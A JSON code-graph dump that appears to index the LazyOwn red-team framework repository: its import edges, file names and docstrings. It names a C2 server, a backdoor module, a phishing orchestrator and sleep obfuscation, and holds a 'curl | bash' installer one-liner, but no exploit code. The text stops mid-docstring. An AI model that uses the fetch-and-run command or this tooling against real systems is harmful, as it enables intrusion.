{"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v4.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "modules/icmp_server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "modules/icmp_server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "modules/icmp_server.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "lazyc2/blueprints/addons.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "lazyc2/blueprints/api.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_hardening_v5.py", "target": "modules/phishing_orchestrator.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_lazyc2.py", "target": "lazyc2/security/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_lazyc2.py", "target": "lazyc2/security/services.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_lazyc2.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_lazyc2.py", "target": "modules/beacon_history.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_sanitizers.py", "target": "modules/security_sanitizers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_security_sanitizers.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/session_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/session_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/session_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_session_ops_command_set.py", "target": "cli/commands/session_ops.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_sessions_browser.py", "target": "cli/sessions_browser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shell_semantics.py", "target": "core/hardening.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shell_semantics.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shell_semantics.py", "target": "core/safe_exec.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shell_semantics.py", "target": "cli/commands/privilege_escalation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shell_semantics.py", "target": "core/safe_subprocess.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/_base.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/_dormancy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/shellsys.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/shellsys.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/shellsys.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/registry.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/misc_migrated.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_shellsys_command_set.py", "target": "cli/commands/shellsys.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_short_url_file_containment.py", "target": "lazyc2/security/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_single_implementation.py", "target": "core/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_single_implementation.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_single_implementation.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_single_implementation.py", "target": "utils.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_sleep_obfuscation.py", "target": "modules/sleep_obfuscation.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_socks_proxy.py", "target": "modules/socks_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_status_bar_operators.py", "target": "cli/status_bar.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_structured_logging.py", "target": "core/logging.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_surface_graph.py", "target": "cli/surface_graph.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_themes.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_timeline_browser.py", "target": "cli/timeline_browser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tips_engine.py", "target": "cli/tips_engine.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_toast_bus.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_toast_bus.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_toast_bus.py", "target": "cli/toast_bus.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_trusted_proxy.py", "target": "lazyc2/security/trusted_proxy.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_splash.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_splash.py", "target": "cli/splash.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_style.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_style.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_style.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_theme_command.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_theme_command.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_themes.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_themes.py", "target": "cli/themes.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_tui_themes.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_unified_bridge_delegate.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_unified_bridge_delegate.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_unified_bridge_delegate.py", "target": "modules/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_unified_dashboard.py", "target": "modules/unified_dashboard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_wizard_binary_check.py", "target": "cli/__init__.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_wizard_llm.py", "target": "cli/wizard.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_wizard_llm.py", "target": "modules/llm_factory.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tests/test_world_model_extended.py", "target": "modules/world_model.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "tools/gen_demo_gifs_extra.py", "target": "tools/gen_demo_gifs.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "skills/claude_md_orchestrator/parser.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "modules/backdoor/server.c"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/console.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/crypto.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/dependencies.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/parsers.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/process.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/validators.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "modules/lazyencoder_decoder.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "cli/banner_config.py"}, {"confidence": "EXTRACTED", "relation": "resolved_imports", "source": "utils.py", "target": "core/safe_subprocess.py"}], "generator": "readmenator", "metadata": {"edge_count": 156554, "file_count": 1015, "language_count": 10, "symbol_count": 19585}, "nodes": [{"doc": "Build and drive LazyOwn inside its Docker sandbox (Debian container).  LazyOwn is a Linux-targeted cmd2 shell; it does not run natively on a non-Linux host (Linux venv paths, shells out to `ip a`, Linux-only deps). The sandbox image is the supported way to launch it anywhere Docker runs. This driver builds the image and drives the shell through its headless runner, which exits with a status code and emits one JSON object per command instead of entering the interactive loop.  Usage, from the repo root: bash .claude/skills/run-lazyown/driver.sh                # smoke test bash .claude/skills/run-lazyown/driver.sh \"help\"         # one command bash .claude/skills/run-lazyown/driver.sh \"a; b; c\"      # command chain  Exit code mirrors the headless runner: 0 = all commands OK.", "id": ".claude/skills/run-lazyown/driver.sh", "kind": "module", "label": "driver.sh", "language": "sh", "sha256": "fda040962e79f6b4", "symbol_count": 0, "symbols": []}, {"id": "DEPLOY.sh", "kind": "module", "label": "DEPLOY.sh", "language": "sh", "sha256": "8c56c3874abf1931", "symbol_count": 3, "symbols": [{"kind": "function", "line": 19, "name": "increment_version"}, {"doc": "Función para actualizar una sección específica", "kind": "function", "line": 86, "name": "update_section_html"}, {"doc": "Función para obtener el tipo de cambio basado en el mensaje del commit", "kind": "function", "line": 190, "name": "get_commit_type"}]}, {"id": "__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "d49aa57081b0bd6f", "symbol_count": 0, "symbols": []}, {"doc": "banner.py  Autor: Gris Iscomeback Correo electrónico: grisiscomeback[at]gmail[dot]com Fecha de creación: 09/06/2024 Licencia: GPL v3  Descripción: Este archivo contiene la definición de la lógica banners de la aplicaciòn LazyOwn RedTeam Framework  ██╗      █████╗ ███████╗██╗   ██╗ ██████╗ ██╗    ██╗███╗   ██╗ ██║     ██╔══██╗╚══███╔╝╚██╗ ██╔╝██╔═══██╗██║    ██║████╗  ██║ ██║     ███████║  ███╔╝  ╚████╔╝ ██║   ██║██║ █╗ ██║██╔██╗ ██║ ██║     ██╔══██║ ███╔╝    ╚██╔╝  ██║   ██║██║███╗██║██║╚██╗██║ ███████╗██║  ██║███████╗   ██║   ╚██████╔╝╚███╔███╔╝██║ ╚████║ ╚══════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚═════╝  ╚══╝╚══╝ ╚═╝  ╚═══╝", "id": "banner.py", "kind": "module", "label": "banner.py", "language": "py", "sha256": "6f3b725a947f1544", "symbol_count": 3, "symbols": [{"kind": "function", "line": 26, "name": "image_to_bash", "signature": "def image_to_bash(image_path, image_res)"}, {"kind": "function", "line": 50, "name": "list_png_files", "signature": "def list_png_files()"}, {"kind": "function", "line": 60, "name": "main", "signature": "def main()"}]}, {"doc": "LazyOwn bootstrap installer (one-liner entry point).  Clones the repository into a target directory (default: $HOME/LazyOwn), runs install.sh, then asks whether to launch a normal session (./run) or the full stack as root (fast_run_as_r00t.sh).  One-liner (download first, then run — immune to pipe stalls and CDN cache): curl -fsSL https://raw.githubusercontent.com/grisuno/LazyOwn/main/bootstrap.sh -o /tmp/bootstrap.sh \\ && bash /tmp/bootstrap.sh  Pipe alternative (same result, single command): curl -fsSL https://raw.githubusercontent.com/grisuno/LazyOwn/main/bootstrap.sh | bash  With options (append after the script path, or use bash -s through the pipe): bash /tmp/bootstrap.sh -- --with-tools --dir ~/pentest/LazyOwn curl -fsSL https://raw.githubusercontent.com/grisuno/LazyOwn/main/bootstrap.sh | bash -s -- --with-tools --dir ~/pentest/LazyOwn  asks what to do: update in place (git pull + reinstall), clean install (delete everything and clone fresh), install into a different directory, or abort. Set --existing to skip the question in scripts.  Options: --dir <path>     Install directory (default: $HOME/LazyOwn, or $LAZYOWN_DIR). --branch <name>  Git branch to clone (default: main, or $LAZYOWN_BRANCH). --with-ml        Also install the heavy ML stack (forwarded to install.sh). --with-ollama    Also install the Ollama runtime (forwarded to install.sh). --with-tools     Also apt-install common external pentest tools.", "id": "bootstrap.sh", "kind": "module", "label": "bootstrap.sh", "language": "sh", "sha256": "3ef4806641fcf86c", "symbol_count": 16, "symbols": [{"kind": "function", "line": 70, "name": "usage"}, {"kind": "function", "line": 74, "name": "log"}, {"kind": "function", "line": 92, "name": "fail"}, {"kind": "function", "line": 97, "name": "spin_run"}, {"kind": "function", "line": 239, "name": "can_prompt"}, {"kind": "function", "line": 250, "name": "ask"}, {"kind": "function", "line": 259, "name": "update_checkout"}, {"kind": "function", "line": 268, "name": "backup_payload"}, {"kind": "function", "line": 280, "name": "clone_fresh"}, {"kind": "function", "line": 286, "name": "clean_checkout"}, {"kind": "function", "line": 293, "name": "confirm_clean"}, {"kind": "function", "line": 303, "name": "ask_new_dir"}, {"kind": "function", "line": 315, "name": "ask_existing_checkout_action"}, {"kind": "function", "line": 336, "name": "ask_existing_path_action"}, {"kind": "function", "line": 355, "name": "resolve_target_dir"}, {"kind": "function", "line": 432, "name": "ask_launch_mode"}]}, {"doc": "LazyOwn CLI infrastructure.  Tier 2 introduces a declarative, modular layer above ``lazyown.py``:  - ``cli/aliases.yaml`` and :func:`cli.aliases.load_aliases` provide cmd2 aliases as data instead of f-strings hard-coded in the shell class. - ``cli/registry.py`` mounts ``cmd2.CommandSet`` instances onto the running ``LazyOwnShell``, opening the door to phase-based command modules (``cli/commands/recon.py``, ``cli/commands/exploit.py``, ...) without touching the 27k-LOC monolith.", "id": "cli/__init__.py", "kind": "module", "label": "__init__.py", "language": "py", "sha256": "87b754e6b7b01898", "symbol_count": 0, "symbols": []}, {"doc": "Declarative cmd2 alias loader.  Reads ``cli/aliases.yaml`` and substitutes ``{name}`` placeholders against a payload dict (typically loaded from ``payload.json``). Missing keys substitute to an empty string so a partially configured shell still loads every alias.  Usage::  from core.config import load_payload from cli.aliases import load_aliases  aliases = load_aliases(load_payload()) self.aliases.update(aliases)", "id": "cli/aliases.py", "kind": "module", "label": "aliases.py", "language": "py", "sha256": "08e1e6912bafa63b", "symbol_count": 7, "symbols": [{"doc": "``str.format_map`` source that returns ``\"\"`` for missing/None values.", "kind": "class", "line": 29, "name": "_SafeFormatDict", "signature": "class _SafeFormatDict(dict)"}, {"doc": "Render ``template`` against ``payload`` placeholders.\n\nFalls back to the literal template if ``str.format_map`` raises\n(e.g. unbalanced braces from legacy strings) so a malformed entry\ncannot prevent the shell from booting.", "kind": "function", "line": 42, "name": "_substitute", "signature": "def _substitute(template, payload)"}, {"doc": "Return the ``{name}`` placeholders referenced by ``template``.\n\nMalformed templates (unbalanced braces from legacy strings) yield an\nempty set — the same fail-safe spirit as :func:`_substitute`.", "kind": "function", "line": 56, "name": "template_placeholders", "signature": "def template_placeholders(template)"}, {"doc": "Return placeholders whose rendered value against ``context`` is empty.", "kind": "function", "line": 72, "name": "empty_placeholders", "signature": "def empty_placeholders(template, context)"}, {"doc": "Return the cmd2 alias map.\n\nArgs:\n    payload: Configuration dict for placeholder substitution. Used only\n        when ``lazy=False``. If ``None`` the function reads\n        ``payload.json`` lazily so callers don't have to import\n        :mod:`core.config` themselves.\n    path: Override the YAML location (used by tests).\n    lazy: When ``True`` (default), preserve ``{name}`` placeholders so\n        ``LazyOwnShell.onecmd_plus_hooks`` can re-render them against the\n        *current* params at execution time — meaning ``set rhost X``\n        instantly updates every alias that references ``{rhost}``. Pass\n        ``lazy=False`` for the legacy snapshot behaviour.\n\nReturns:\n    Flat ``{name: command}`` dict suitable for ``self.aliases.update(...)``.\n\nRaises:\n    FileNotFoundError: ``path`` does not exist.\n    yaml.YAMLError: file is malformed YAML.\n    TypeError: top-level YAML is not a mapping.\n    ValueError: a key or value has the wrong type.", "kind": "function", "line": 77, "name": "load_aliases", "signature": "def load_aliases(payload, path, lazy)"}, {"kind": "method", "line": 32, "name": "__missing__", "signature": "def __missing__(self, key)"}, {"kind": "method", "line": 35, "name": "__getitem__", "signature": "def __getitem__(self, key)"}]}, {"doc": "``assign`` business logic.  Extracted from :class:`LazyOwnShell.do_assign` so the persistence and validation behaviour can be unit-tested without booting the cmd2 shell.  Tier 2.5 promises:  - ``assign <key> <value>`` only succeeds when ``key`` is already part of the payload (no silent introduction of new keys). - On success the live ``params`` dict is mutated in place AND a save callback is invoked so the change survives a shell restart. - On failure (unknown key) nothing is mutated and no save callback fires.  Schema integration (additive, backwards compatible):  - When the key is registered in :data:`core.payload_schema.SCHEMA`, the value is coerced to the canonical type (``\"5555\"`` → ``5555`` for ports) before being stored, so downstream consumers no longer have to defensively cast. - A schema validation failure for an existing key is reported through the optional ``on_issue`` callback. The assignment still proceeds (legacy lenient contract) except when the value contains shell metacharacters — those are rejected fail-closed so injection payloads never persist.", "id": "cli/assign.py", "kind": "module", "label": "assign.py", "language": "py", "sha256": "c84070bae2c7b3e5", "symbol_count": 1, "symbols": [{"doc": "Validate, mutate and persist a single payload assignment.\n\nArgs:\n    params: Live parameter dict. Mutated in place when ``key`` exists.\n    key: Parameter name.\n    value: New value to store.\n    save: Optional callable invoked with ``params`` after a successful\n        mutation. Pass :func:`core.config.save_payload` to persist to\n        ``payload.json``. ``None`` skips persistence (useful for tests).\n    on_issue: Optional callback invoked with the validation issue when\n        the value fails the schema for ``key``. Values containing shell\n        metacharacters are rejected fail-closed and never persist.\n    history: Optional :class:`cli.config_history.ConfigHistory` that\n        receives a snapshot before mutation so ``undo`` can restore it.\n\nReturns:\n    ``True`` if ``key`` existed in ``params`` and was updated;\n    ``False`` otherwise. Callers can use the return value to decide\n    whether to refresh dependent state (e.g. aliases).", "kind": "function", "line": 36, "name": "apply_assign", "signature": "def apply_assign(params, key, value)"}]}, {"doc": "Automatic encryption of sensitive session data on app open/close.  Before this module the operator had to manually run ``lazyenc.py encrypt`` and ``lazyenc.py decrypt`` to protect session data at rest. This module provides automatic encryption when the application closes and automatic decryption when an authenticated user opens it.  Scope of protection: - ``sessions/credentials_*.txt`` — captured credentials - ``sessions/*.key`` — cryptographic key material - ``sessions/*.pem`` — TLS certificates and keys - ``sessions/world_model.json`` — operational state - ``sessions/hash*.txt`` — captured hashes - ``sessions/.secret_key`` — Flask secret - ``sessions/key.aes`` — C2 beacon key  The module uses the same PBKDF2HMAC + Fernet cryptography as ``lazyenc.py``. The key is derived from the operator's login password (available after ``login`` command) or a stored master password hash.  Design contract (SOLID): - Single responsibility: encrypt/decrypt session data on lifecycle events. - Open/Closed: the list of protected globs is configurable via ``AutoCryptoConfig.protect_globs`` without changing the engine logic. - Dependency Inversion: the engine accepts a ``key_provider`` callable so the key source (CLI login, C2 session, env var) is injected. - Zero imports from ``lazyown.py`` or ``lazyc2.py``. - Atomic writes via temp-file rename.", "id": "cli/auto_crypto.py", "kind": "module", "label": "auto_crypto.py", "language": "py", "sha256": "1d7893d94b95d8b7", "symbol_count": 13, "symbols": [{"doc": "Centralised configuration for automatic session encryption.\n\nAttributes:\n    sessions_dir: Path to the sessions directory.\n    protect_globs: Glob patterns matching files to protect.\n    password_provider: Callable that returns the operator's password\n        (or None when unauthenticated).\n    auto_enabled: When False the engine is a no-op.\n    pbkdf2_iterations: Iteration count for PBKDF2 key derivation.", "kind": "class", "line": 48, "name": "AutoCryptoConfig", "signature": "class AutoCryptoConfig"}, {"doc": "Encrypt and decrypt sensitive session files with a derived key.\n\nArgs:\n    config: Engine configuration. Defaults are sensible for the\n        standard LazyOwn sessions layout.", "kind": "class", "line": 77, "name": "AutoCryptoEngine", "signature": "class AutoCryptoEngine"}, {"doc": "Return a password provider that reads the CLI login session.\n\nThe provider tries:\n1. ``modules.cli_auth.get_current_operator()`` for username,\n   then reads the operator's stored credential hash from ``users.json``.\n2. Falls back to ``LAZYOWN_MASTER_PASSWORD`` environment variable.\n3. Returns None when no credential is available (crypto is skipped).\n\nReturns:\n    A zero-argument callable returning the operator's password or None.", "kind": "function", "line": 297, "name": "build_password_provider_from_cli_login", "signature": "def build_password_provider_from_cli_login()"}, {"kind": "method", "line": 85, "name": "__init__", "signature": "def __init__(self, config)"}, {"doc": "Whether the engine performs any I/O.", "kind": "method", "line": 90, "name": "enabled", "signature": "def enabled(self)"}, {"doc": "Check whether session data appears encrypted.\n\nReturns True when at least one protected file has the encrypted\nsuffix marker applied. A directory with no protected files at all\nreturns False (nothing to protect).", "kind": "method", "line": 95, "name": "is_encrypted", "signature": "def is_encrypted(self)"}, {"doc": "Encrypt all protected session files.\n\nReturns True when at least one file was encrypted, False when no\npassword is available or no files exist to protect.", "kind": "method", "line": 124, "name": "encrypt_session", "signature": "def encrypt_session(self)"}, {"doc": "Decrypt all protected session files.\n\nReturns True when at least one file was decrypted, False when no\nencrypted files exist or the password is wrong/absent.", "kind": "method", "line": 174, "name": "decrypt_session", "signature": "def decrypt_session(self)"}, {"doc": "Return True when the configured provider yields a password now.\n\nExit paths use this to distinguish \"nothing to protect\" from\n\"no credential available\", so a skipped encryption is never\nsilent.\n\nReturns:\n    True when a non-empty password is available.", "kind": "method", "line": 239, "name": "has_password", "signature": "def has_password(self)"}, {"kind": "method", "line": 251, "name": "_get_password", "signature": "def _get_password(self)"}, {"kind": "method", "line": 260, "name": "_load_or_create_salt", "signature": "def _load_or_create_salt(self)"}, {"kind": "method", "line": 291, "name": "_derive_key", "signature": "def _derive_key(password, salt)"}, {"kind": "function", "line": 310, "name": "_provider", "signature": "def _provider()"}]}, {"doc": "Ghost-text autosuggest engine for the LazyOwn cmd2 shell.  After every command, the engine consults its provider chain to pick the most likely next command. The selected :class:`Suggestion` is held as state, surfaced as a dim ANSI fragment inside the cmd2 prompt, and executed with a single keystroke via the ``do_next`` shell command (or its ``.`` alias).  The module is pure presentation + state. It does not import cmd2, Flask, or any LazyOwn module so providers and the engine remain unit-testable in isolation. Concrete providers receive their backing data structures via constructor injection (Dependency Inversion).", "id": "cli/autosuggest.py", "kind": "module", "label": "autosuggest.py", "language": "py", "sha256": "cacae3c6b24bf084", "symbol_count": 27, "symbols": [{"doc": "Inputs available to every suggestion provider.\n\nArgs:\n    last_command: First token of the last command executed.\n    phase: Current engagement phase (recon, enum, exploit, ...).\n    recent_commands: Last N commands from the session transcript,\n        newest entries 